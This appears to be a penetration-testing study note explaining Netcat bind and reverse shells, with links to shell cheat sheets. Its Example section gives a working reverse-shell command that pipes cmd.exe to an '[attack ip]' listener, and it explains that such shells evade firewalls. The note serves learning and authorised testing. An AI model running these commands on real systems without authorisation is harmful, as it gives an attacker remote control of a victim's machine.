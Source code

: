 # Shells

Hacking Tutorial: [Bind & Reverse Shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

## Contents
- [Reverse Shells](#reverse-shells)
  - [Explanation](#explanation)
  - [Example](#example)
  - [Resources](#resources)
- [Bind Shells](#bind-shells)
  - [Explanation](#explanation-1)
  - [The Problem](#the-problem)
  - [The Solution](#the-solution)

## Reverse Shells
![Netcat-reverse-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/0c7173d5-91a6-4c45-b49a-8b8251dd327d)

### Explanation
- A reverse shell is a type of remote shell where the target connects back to a listener on the attacker's machine, consequently allowing for execution of commands on the target system. 
- You will use reverse shells 95% of the time
- With a reverse shell you do not necessarily need Netcat on the target. You just need a connection from the target back to the Netcat listener on the attack machine.
- Reverse shells also are harder to detect since the traffic is outbound from the target (and not inbound; most firewalls block inbound traffic).

### Example
```
nc -nvlp 1234                            # listener, on attack machine
nc -nv [attack ip] [port#] -e cmd.exe    # from target machine, Windows
```

### Resources
- [PentestMonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- PentestMonkey Reverse Shell Example: PHP Reverse Shell ( [instructions](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) | [download](https://github.com/pentestmonkey/php-reverse-shell) )

## Bind Shells
![Netcat-bind-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/e632e39e-24ee-46fd-a510-2bbb0f6e3077)

### Explanation
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.
  - This allows the execution of commands on the target system.
- A Netcat listener can be set up on the target to execute a specific executable like `cmd.exe` (or `powershell.exe`) or `/bin/bash` when the client (attacker) connects to the listener.

### The Problem
- The first problem with bind shells is getting Netcat on the target system and then using it to spin up a listener (on the target system).
- Secondly, most modern operating systems typically block inbound traffic using a firewall.

### The Solution
- Use a reverese shell because with a reverse shell, the rules are switched.
  - The attack machine sets up the listener.
  - You connect from the target machine, outbound, to the attack machine.
  - Outbound traffic is often less scrutinized than inbound traffic.
- And the result is the same: shell access to the target.
